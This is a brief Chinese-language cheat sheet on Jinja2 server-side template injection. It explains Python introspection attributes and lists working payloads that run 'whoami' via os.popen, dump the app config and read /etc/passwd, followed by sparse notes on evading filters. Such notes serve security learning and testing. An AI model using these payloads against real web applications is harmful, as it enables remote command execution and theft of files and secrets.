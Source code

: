 # 服务端模板注入（SSTI，Server Side Template Injection）

模板？

## Python Jinja2

{{ }}
{% %}

__import__("os").popen("whoami").read()

[open](https://docs.python.org/zh-cn/3.10/library/functions.html#open) 为 Python 内置函数

open("/etc/passwd").read()

特殊方法

__subclasses__()

特殊属性

- `object.__class__`，返回该对象所属的类

```python
>>> ''.__class__
<class 'str'>
>>> [].__class__
<class 'list'>
```

- `function.__globals__`，返回存放该函数中 全局变量

- `class.__base__`，返回类的父类

```python
>>> ''.__class__.__base__
<class 'object'>
```

### 常用payload

{{url_for.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()")}}

{{ config }}

#### 读文件

```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}

{{get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read()}}
```

## 绕过过滤

```python
request.__class__
request["__class__"]
```

### `_`

### `[ ]`

### `|join`
